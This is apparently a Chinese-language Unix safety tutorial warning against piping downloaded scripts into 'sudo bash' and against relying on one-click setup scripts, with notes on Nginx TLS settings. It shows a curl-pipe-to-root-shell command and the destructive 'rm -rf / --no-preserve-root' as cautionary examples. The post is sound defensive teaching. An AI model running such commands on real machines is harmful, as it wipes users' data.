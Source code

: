 # 网上教程不会告诉你的类 Unix 使用注意事项

---


```
$ curl https://lorem.ipsum/dolor.sh | sudo bash
```

上面的一行命令，你看着熟悉吗？

*noarch* 现在告诉你，这个你将要运行的 `dolor.sh` 内容是这样的：

```
rm -rf / --no-preserve-root
```

如果你在使用 GNU/Linux 或 *BSD, 运行它会删除你电脑上的所有数据，需要你耗费大量精力找回。

这类操作系统自由度极高，但也代表着人为损坏的门槛更低；因此你需要在使用时多加注意。

下面是 *noarch* 在数年 GNU/Linux 使用过程中总结出的 do's & don'ts.


## *不：* 运行未知脚本

我们再来看下开头 *noarch* 提到的命令：

```
$ curl https://lorem.ipsum/dolor.sh | sudo bash
```

它其中的管道符号 `|` 代表所有从 `curl` 输出的内容均会被盲目地被 `sudo bash` 执行。

你可能会问，*那我是不是就不要运行脚本了？*

当然不是。前提是你*在运行脚本之前了解自己在运行些什么。* *noarch* 取这个使用管道符号运行脚本的例子，还强调审核脚本的重要性。

*noarch* 建议你在运行任何脚本之前，先下载下来粗略阅读一遍，然后再给它可执行权限运行。这样你至少知道自己在运行什么。

### 你真的需要一键脚本吗？

*noarch* 的个人意见：*使用他人的一键脚本，可视化面板等不是学习 Unix 的好方法。*

脚本没法覆盖所有使用情况，不知道目标机器的硬件配置，因此往往只能取一个“刚好能运行”的配置。

例如，如果你使用一个脚本配置 LNMP (Linux + Nginx + MySQL + PHP), 你的 Nginx 配置可能不会禁用不安全的 HTTP, 并且未启用[严格传输安全](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security)。

这让你的网站暴露于 TLS 降级攻击：一个过度简单的描述就是中间人攻击者拦截客户端开始 HTTPS 通讯的请求，使得客户端只使用 HTTP 访问你的网站。攻击者再可以由此窃取你用户的帐号密码，修改你网站的内容...

除了安全问题之外，忽略细节需要牺牲性能：因为[安全问题](https://www.acunetix.com/blog/articles/tls-vulnerabilities-attacks-final-part/)，众多发行版的 Nginx 安装都默认禁用 Gzip 压缩。这会让你的用户和服务器浪费许多宝贵的流量，并降低加载速度。如果你手动配置 Nginx 并愿意了解更多技术细节，你就可以专门为静态资源 (CSS, JS...) 启用 Gzip.

Gzip 配置得当[能帮你省下超过 70% 的流量](https://www.rootusers.com/gzip-vs-bzip2-vs-xz-performance-comparison/)！


## *不：* 复制粘贴进 shell
